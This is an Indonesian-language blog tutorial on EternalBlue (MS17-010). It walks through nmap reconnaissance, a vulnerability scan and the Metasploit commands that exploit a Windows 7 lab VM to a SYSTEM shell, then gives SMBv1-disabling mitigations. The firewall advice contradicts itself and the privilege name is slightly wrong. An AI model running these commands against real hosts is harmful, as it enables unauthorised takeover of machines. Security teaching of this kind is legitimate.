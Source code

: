 ```yaml
---
title: "Eternalblue (MS17-010) - SMBv1's Exploit"
date: 2024-03-21T18:54:33+07:00
draft: false
summary: "EternalBlue is a computer exploit software developed by the U.S. National Security Agency (NSA). It is based on a vulnerability in Microsoft Windows that allowed users to gain access to any number of computers connected to a network."
cover:
  image: "/eternalblue/cover.png"
  alt: 'Eterbalblue (MS17-010)'
  caption: "eternalblue - metasploit"
tags: ["metasploit", "tutorial", "cyber security"]
categories: ["hacking"]
---
```


# Sejarah (Singkat)

Apa itu Eternalblue?

Eternalblue atau oleh Microsoft disebut dengan MS17-010 adalah sebuah [**exploit**](https://en.wikipedia.org/wiki/Exploit_(computer_security)) yang dapat digunakan untuk menyebarkan ***malware*** pada sebuah mesin Windows. Eternalblue adalah eksploit yang pada awalnya ditemukan oleh [NSA (_National Security Agency_) Amerika Serikat](https://www.nsa.gov/) untuk memanfaatkan kerentanan pada SMB v1 (_Server Message Block_ versi 1)  di Windows, terutama pada Windows 7 dan Windows XP.[^1] 

Exploit ini tidak dilaporkan oleh NSA ke pihak Microsoft karena menguntungkan pihak NSA untuk melakukan mata-mata terhadap lawan-lawan politiknya. Ketika NSA mengetahui bahwa ternyata exploit tersebut sudah bocor (dicuri), Microsoft akhirnya mengumumkan *security pacthes* terhadap kerentanan atau *vulnerability* tersebut pada Maret 2017. Exploit tersebut dibocorkan kepada publik oleh sebuah kelompok ***hacker*** bernama [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) pada April 2017. Segera setelah rilisnya exploit tersebut ke publik, pada May 2017, dilaporkan [*ransomware* Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) mulai menginfeksi banyak komputer di seluruh dunia menggunakan exploit Eternalblue tersebut[^2].

# Demo Exploitasi - Offensive

Saya akan memberikan demo eksploitasi kerentanan SMBv1 ini menggunakan exploit Eternalblue (MS17-010) yang sudah terdapat dalam [Metasploit](https://www.metasploit.com/). 
Secara singkat, Metasploit adalah sebuah ***framework*** berbasis [*open-source*](https://en.wikipedia.org/wiki/Open_source) yang digunakan untuk *exploit development* dan *vulnerability research*.
![ss1](/eternalblue/ss1.png)

Kita akan melakukan setidaknya 3 proses untuk melakukan eksploitasi, yaitu
- Recon
- Vulnerability Scanning, dan
- Exploitation

## Recon

Di sini, saya sudah memiliki sebuah mesin VM *(Virtual Machine)* Windows 7 sebagai target yang akan dieksploitasi kerentanan SMB-nya.
Pada tahap ini, kita akan terlebih dahulu melakukan *reconnaissance* atau pemeriksaan (atau dalam bahasa militernya adalah mata-mata) terhadap target yang akan dieskploitasi. 
Hal yang perlu dipastikan dalam tahap dan konteks ini adalah bahwa **_service_ SMBv1 berjalan di mesin target**.
![ss2](/eternalblue/ss2.png)

Saya akan menggunakan [Nmap](https://nmap.org/) untuk melakukan proses recon ini.
```bash
nmap -vv -sV 192.168.0.120 -o result.nmap
```
![ss3](/eternalblue/ss3.png)

Dari hasil Nmap tersebut, kita tahu bahwa _service_ SMB sedang *running*. 

Port *`139`* dan *`445`* adalah port default untuk menjalankan _service_ SMB ini.
![ss4](/eternalblue/ss4.png)

## Vulnerability Scanning

Setelah mengetahui bahwa target mesin tersebut (Windows 7) menjalankan SMB, sekarang, kita akan melakukan _vulnerability scanning_ untuk melihat, apakah SMB tersebut rentan untuk dieksploitasi.

Untuk tahap ini, saya lagi-lagi akan menggunakan Nmap dengan script `smb-vuln-ms17-101.nse` yang juga terdapat di **/usr/share/nmap/scripts**.
```bash
nmap -vv -sV --script=smb-vuln-ms17-010.nse -p139,445 192.168.0.120 -o vuln.nmap
```
![ss8](/eternalblue/ss8.png)
Ya, berdasarkan hasil *scanning* Nmap, kita tahu bahwa *service* SMB tersebut rentan (*vulnerable*) terhadap eksploitasi Eternalblue.

## Exploitation

Sekarang, kita akan melakukan eksploitasi terhadap kerentanan tersebut.
Saya akan menggunakan Metasploit sebagai *tools* dalam melakukan tahap eksploitasi ini. 

Pertama, kita dapat menjalankan Metasploit dengan mengetikkan perintah
```bash
msfconsole -q
```

Selanjutnya, kita akan mencari modul eksploit Eternalblue dan menginputkan IP Address target mesin kita (Windows 7) ke opsi **RHOSTS**.
```bash
msf6> search eternalblue
msf6> use 0
msf6> set rhosts 192.168.0.120
```
![ss9](/eternalblue/ss9.png)

Kita bisa memastikan semua opsi untuk melakukan eksploitasi di modul Eternalblue (MS17-010) ini sudah terpenuhi dengan mengetikkan perintah berikut:
```bash
msf6> options
```
![ss10](/eternalblue/ss10.png)
Lingkaran yang berwarna merah adalah IP target kita (Windows 7). Adapun lingkaran yang berwarna hijau adalah IP mesin *attacker* kita (Kali Linux).

Untuk memulai eksploitasi, kita dapat mengetikkan perintah
```bash
msf6> exploit
```
atau
```bash
msf6> run
```
![ss11](/eternalblue/ss11.png)

Yapp, kita baru saja berhasil mengeksploitasi SMBv1 dengan eskploit Eternalblue (MS17-010)!!!

Ketika kita sudah mendapatkan shell tersebut (meterpreter), kita sebagai *attacker* sudah dapat melakukan apa saja, mulai dari melakukan *screenshot*, *screen recording*, *camera recoding*, dan lain-lain yang pada intinya, kita sudah seperti memiliki atau memegang komputer atau laptop dengan Windows 7 tersebut!

Apalagi, kalau diperhatikan, Eternalblue ini memberikan kita akses shell dengan *privilege* yang tinggi (nt authority\system32) atau root jika di Linux. Artinya, kita benar-benar sudah menguasai mesin korban tersebut.

Dengan melihat kemudahan eksploitasinya dan dampak aksesnya, kita bisa menyimpulkan bahwa eksploit ini sangat berbahaya sekali, bukan?

# Pencegahan - Defensive

Beberapa hal yang dapat kita lakukan sebagai tindakan preventif terhadap exploitasi Eternalblue ini di Windows 7 yaitu:
1. Mematikan *service* SMBv1, apalagi jika kalian tidak sering (atau bahkan) tidak pernah menggunakan *service* ini untuk *file sharing*. 
Cara menonaktifkan SMBv1 dapat dilakukan dengan mengetikkan perintah berikut di Powershell[^3]:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force
```
2. Selain itu, kalian juga perlu memastikan Firewall tidak dihidupkan disembarang jaringan, apalagi jaringan publik. Kalau perlu, hidupkan saja firewallnya, baik di *private* maupun di *public network*.
![ss12](/eternalblue/ss12.png)

Ok, sekian dulu untuk tutorial eksploitasi Eternalblue (MS17-010) kali ini.

Terima kasih!


[^1]: https://nordvpn.com/blog/what-is-eternalblue/
[^2]: https://en.wikipedia.org/wiki/EternalBlue
[^3]: https://learn.microsoft.com/id-id/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
